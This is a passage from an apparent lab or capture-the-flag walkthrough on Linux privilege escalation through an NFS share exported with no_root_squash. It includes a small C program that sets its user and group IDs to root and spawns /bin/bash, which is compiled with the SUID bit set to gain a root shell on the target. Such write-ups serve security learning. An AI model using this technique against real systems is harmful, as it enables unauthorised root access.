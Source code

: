 We will mount one of the “no_root_squash” shares to our attacking machine and start building our executable.

![](./img/Pasted%20image%2020230906011714.png)

As we can set SUID bits, a simple executable that will run /bin/bash on the target system will do the job.

![](./img/Pasted%20image%2020230906011734.png)

```c
//Enter into nano and save as nfs.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(void)
{
   setuid(0);
   setgid(0);
   system("/bin/bash");
   return 0;
}
```

Once we compile the code we will set the SUID bit.

![](./img/Pasted%20image%2020230906011750.png)

You will see below that both files (nfs.c and nfs are present on the target system. We have worked on the mounted share so there was no need to transfer them).

![](./img/Pasted%20image%2020230906011808.png)

Notice the nfs executable has the SUID bit set on the target system and runs with root privileges.

